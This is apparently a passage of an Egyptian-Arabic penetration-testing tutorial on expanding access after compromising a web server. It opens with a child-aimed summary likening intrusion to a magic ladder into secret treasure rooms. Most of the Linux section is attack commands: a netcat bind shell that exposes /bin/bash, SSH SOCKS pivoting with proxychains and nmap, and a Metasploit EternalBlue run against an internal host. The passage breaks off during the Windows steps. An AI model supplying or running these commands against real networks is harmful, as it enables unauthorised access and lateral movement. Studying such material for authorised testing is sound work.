 **خلاصة للطفل:** زي لما تستخدم سلم سحري في بيت اللعب 🪜، وتطلع على غرف سرية مليانة كنوز من غير ما حد يعرف! 💰

---

### **خطوات عملية للـ Pentesting في Expanding Access 🛠️**
دلوقتي خطوات عملية للاستغلال في اختبار الاختراق الأخلاقي:

#### **في لينكس (سيرفر ويب):**
1. **تحقق من وصولك:**
   ```bash
   whoami
   ip addr
   ```
   - خرج مثال: `www-data`, `192.168.1.10`.

2. **اكتشف الشبكة:**
   ```bash
   arp -a
   ```
   - خرج مثال: `192.168.1.11`.

3. **افتح Shell:**
   ```bash
   nc -lvp 4444 -e /bin/bash
   ```
   - في جهازك:
     ```bash
     nc 192.168.1.10 4444
     ```

4. **Pivoting بـ SSH:**
   ```bash
   ssh -D 9050 user@192.168.1.10
   proxychains nmap -sT 192.168.1.0/24
   ```

5. **هاجم جهاز داخلي:**
   ```bash
   proxychains msfconsole
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOST 192.168.1.11
   run
   ```

#### **في ويندوز (سيرفر ويب):**
1. **تحقق من وصولك:**
   ```cmd
   whoami
   ipconfig
   ```
   - خرج مثال: `iis apppool\defaultapppool`, `192.168.1.10`.

2. **اكتشف الشبكة:**
   ```cmd
   arp -a
   ```
